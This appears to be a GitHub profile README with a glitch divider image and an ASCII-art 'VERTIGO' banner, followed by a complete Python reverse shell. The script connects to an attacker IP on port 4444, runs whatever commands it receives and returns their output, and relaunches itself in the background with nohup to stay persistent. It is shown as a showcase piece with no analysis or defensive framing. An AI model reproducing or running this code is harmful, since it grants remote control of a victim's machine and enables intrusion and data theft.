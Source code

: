 <div align="center">
  <img src="https://raw.githubusercontent.com/VertigoFromOuterSpace/VertigoFromOuterSpace/main/.assets/glitch_divider.svg?v=7" alt="Glitch Divider"/>
</div>

<div align="center">
  <pre>
echo  ╔═══════════════════════════════════════════════════════════════╗
echo  ║  ██╗   ██╗███████╗██████╗ ████████╗██╗ ██████╗  ██████╗       ║
echo  ║  ██║   ██║██╔════╝██╔══██╗╚══██╔══╝██║██╔════╝ ██╔═══██╗      ║
echo  ║  ██║   ██║█████╗  ██████╔╝   ██║   ██║██║  ███╗██║   ██║      ║
echo  ║  ╚██╗ ██╔╝██╔══╝  ██╔══██╗   ██║   ██║██║   ██║██║   ██║      ║
echo  ║   ╚████╔╝ ███████╗██║  ██║   ██║   ██║╚██████╔╝╚██████╔╝      ║
echo  ║    ╚═══╝  ╚══════╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝  ╚═════╝       ║
echo  ╚═══════════════════════════════════════════════════════════════╝
  </pre>
</div>

```diff

import socket
import subprocess
import os

# Attacker's IP and port
ATTACKER_IP = "192.168.1.100"
ATTACKER_PORT = 4444

def connect():
    try:
        # Create a socket object
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        # Connect to attacker
        s.connect((ATTACKER_IP, ATTACKER_PORT))
        # Receive commands from attacker
        while True:
            command = s.recv(1024).decode()
            if command.lower() == "exit":
                break
            # Execute command and send output back
            output = subprocess.getoutput(command)
            s.send(output.encode())
        s.close()
    except Exception as e:
        print(f"Error: {e}")

if __name__ == "__main__":
    # Make the script persistent (runs in background)
    os.system("nohup python3 -c 'import os; os.system(\"python3 " + __file__ + "\")' &")
    connect()
